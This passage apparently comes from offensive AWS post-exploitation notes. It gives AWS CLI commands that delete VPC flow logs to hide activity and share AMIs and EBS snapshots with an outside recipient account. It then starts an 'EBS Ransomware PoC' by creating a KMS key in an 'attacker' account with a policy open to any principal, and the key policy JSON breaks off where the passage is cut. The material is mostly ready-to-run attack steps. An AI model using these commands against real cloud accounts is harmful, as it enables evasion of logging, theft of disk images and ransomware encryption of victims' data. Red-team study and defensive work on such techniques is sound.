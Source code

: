 ```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```

### Share AMI

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### Share EBS Snapshot

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### EBS Ransomware PoC

A proof of concept similar to the Ransomware demonstration demonstrated in the S3 post-exploitation notes. KMS should be renamed to RMS for Ransomware Management Service with how easy it is to use to encrypt various AWS services using it.

First from an 'attacker' AWS account, create a customer managed key in KMS. For this example we'll just have AWS manage the key data for me, but in a realistic scenario a malicious actor would retain the key data outside of AWS' control. Change the key policy to allow for any AWS account Principal to use the key. For this key policy, the account's name was 'AttackSim' and the policy rule allowing all access is called 'Outside Encryption'

```
{
    "Version": "2012-10-17",
    "Id": "key-consolepolicy-3",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        },
        {
            "Sid": "Allow access for Key Administrators",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
            },
            "Action": [
                "kms:Create*",
                "kms:Describe*",
                "kms:Enable*",
                "kms:List*",
                "kms:Put*",
                "kms:Update*",
                "kms:Revoke*",
                "kms:Disable*",
                "kms:Get*",
                "kms:Delete*",
                "kms:TagResource",
```